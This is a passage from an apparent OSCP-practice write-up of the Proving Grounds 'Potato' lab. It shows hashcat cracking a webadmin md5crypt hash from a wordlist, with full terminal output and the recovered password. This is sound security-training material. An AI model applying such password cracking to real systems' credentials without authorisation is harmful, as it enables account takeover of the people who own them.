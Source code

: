 Including a hash which we can try to crack with hashcat!

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato/files]
└─$ hashcat hashes.txt /usr/share/wordlists/john.lst 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700HQ CPU @ 2.60GHz, 6892/13849 MB (2048 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/john.lst
* Passwords.: 3559
* Bytes.....: 26326
* Keyspace..: 3559
* Runtime...: 0 secs

$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:dragon                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
Time.Started.....: Sat Apr  6 16:56:19 2024 (0 secs)
Time.Estimated...: Sat Apr  6 16:56:19 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/john.lst)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    24472 H/s (10.02ms) @ Accel:128 Loops:250 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```